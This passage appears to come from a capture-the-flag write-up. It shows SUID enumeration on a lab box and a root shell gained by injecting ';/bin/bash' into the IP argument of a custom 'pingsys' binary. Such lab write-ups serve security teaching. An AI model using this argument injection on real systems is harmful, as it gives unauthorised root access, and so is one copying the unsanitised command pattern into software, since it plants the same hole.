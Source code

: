 In the meantime, I kept enumerating the target and noticed that there is an unusual program owned by root with the SUID bit set:

~~~
[jacob@jacobtheboss mail]$ find / -type f -user root -perm -u=s 2>/dev/null
find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/pingsys  <------------- interesting!
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chage
/usr/bin/umount
/usr/bin/crontab
/usr/bin/pkexec
/usr/bin/passwd
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/usernetctl
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/libexec/dbus-1/dbus-daemon-launch-helper
~~~

## pingsys

The program expects a program, and as its name suggests, it should be an IP address to ping.

~~~
[jacob@jacobtheboss mail]$ /usr/bin/pingsys 10.8.50.72
/usr/bin/pingsys 10.8.50.72
PING 10.8.50.72 (10.8.50.72) 56(84) bytes of data.
64 bytes from 10.8.50.72: icmp_seq=1 ttl=63 time=46.2 ms
64 bytes from 10.8.50.72: icmp_seq=2 ttl=63 time=225 ms
64 bytes from 10.8.50.72: icmp_seq=3 ttl=63 time=207 ms
64 bytes from 10.8.50.72: icmp_seq=4 ttl=63 time=71.5 ms

--- 10.8.50.72 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 46.203/137.642/225.427/79.531 ms
~~~

Playing a bit with the expected parameter, I eventually confirmed that the program is vulnerable to injection, as I was able to append commands to the IP, which will be executed as root. Let's append `/bin/bash` to get a root shell:

~~~
[jacob@jacobtheboss mail]$ /usr/bin/pingsys "10.8.50.72;/bin/bash"
/usr/bin/pingsys "10.8.50.72;/bin/bash"
PING 10.8.50.72 (10.8.50.72) 56(84) bytes of data.
64 bytes from 10.8.50.72: icmp_seq=1 ttl=63 time=46.2 ms
64 bytes from 10.8.50.72: icmp_seq=2 ttl=63 time=61.8 ms
64 bytes from 10.8.50.72: icmp_seq=3 ttl=63 time=294 ms
64 bytes from 10.8.50.72: icmp_seq=4 ttl=63 time=271 ms

--- 10.8.50.72 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3003ms
rtt min/avg/max/mdev = 46.259/168.534/294.567/114.923 ms
[root@jacobtheboss mail]# id
id
uid=0(root) gid=1001(jacob) groups=1001(jacob) context=system_u:system_r:initrc_t:s0
~~~
